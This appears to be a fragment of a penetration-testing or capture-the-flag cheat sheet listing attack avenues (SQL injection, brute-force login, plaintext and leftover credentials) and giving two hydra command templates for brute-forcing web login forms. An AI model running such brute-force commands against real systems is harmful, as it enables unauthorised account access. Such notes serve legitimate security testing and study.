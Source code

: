 - 1. SQL injection
- 2. Bruteforce authentication
- 3. Plaintext password    
- 4. Credential somewhere in the box
## Bruteforce authentication
	hydra -l [user]-P [wordlist] [ip] http-post-form "/admin.php:target=auth&mode=login&user=^USER^&password=^PASS^:invalid"

	hydra -l user -P [wordlist] -f $ip http-get /path